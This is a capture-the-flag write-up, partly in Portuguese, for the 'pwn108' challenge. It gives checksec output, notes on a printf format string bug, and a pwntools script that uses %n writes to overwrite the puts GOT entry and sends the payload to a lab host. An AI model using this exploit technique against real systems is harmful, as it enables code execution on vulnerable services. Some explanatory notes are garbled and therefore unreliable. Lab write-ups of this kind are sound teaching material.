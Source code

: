 
Command file:
```
file pwn108.pwn108                                                
pwn108.pwn108: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b1c32d1f20d6d8017146d21dfcfc4da79a8762d8, for GNU/Linux 3.2.0, not stripped

```


Comando checksec:

```
checksec --file=pwn108.pwn108 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified  Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0 2pwn108.pwn108

```


Exploit:
- **No PIE** quer dizer que as address durante a execução nao mudam mantem-se as mesmas
- **Partial RELRO** relocation read only
- Partial RELRO is the default behavior for gcc
- Format string vulnerability %X
- Red to win attack but in this case are abusing a format string vulnerability
- temos de saber o formato specifier do printf:
	- %d,%u, %x, %s,%n
	- use: %n absolute intrigue is a mystery at least, **allows us to write into memory whatever we want**
	- o que nos queremos? escrever a address da função holiday que e onde esta flag -> 0x000000000040123b
- **GOT** = Global offset Table
- **PLT** = Procedure Linkage Table
- Overrride .got.plt -> ghidra -> window -> memory map
- set got in 12 posiçao
-  descobrir a posição do input posiçao 10
		- ABCD.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX
- **Atençao** se address tiver null bytes e printf o printf vai terminar quando vir um null byte mudar o payload
- **Trick:**
- length specifer  h short int write only to bytes not four 

exploit:

```python
from pwn import *

  

context.binary = binary = ELF("./pwn108.pwn108")

#context.log_level = "debug"

  

got_puts_address = binary.got.puts

  

# primeiro printf e buff 0x12

junk_payload = b"A"*0x12

  

#Number of bytes to write = Desiredvalue - bytes writen so far

# 32 = 40 - 0

  

#payload = b"%40X%12$nAAAAAAA" + p64(got_puts_address)

  
  
  

# 1st write -> (0x40)64 - 0 = 64

#2st write -> (0x123b) 4667 - 64 = 4603

  

payload = b"%64X%13$n" + b"%4603X%14$hnAAA" + p64(got_puts_address + 2) + p64(got_puts_address)

  

# USAR PARA TEST O FILE r2

  

#with open("payload","wb") as f:

# f.write(junk_payload)

# f.write(payload)

  

#p = process()

  

p = remote("10.10.207.160", 9008)

p.send(junk_payload)

p.send(payload)

p.interactive()

```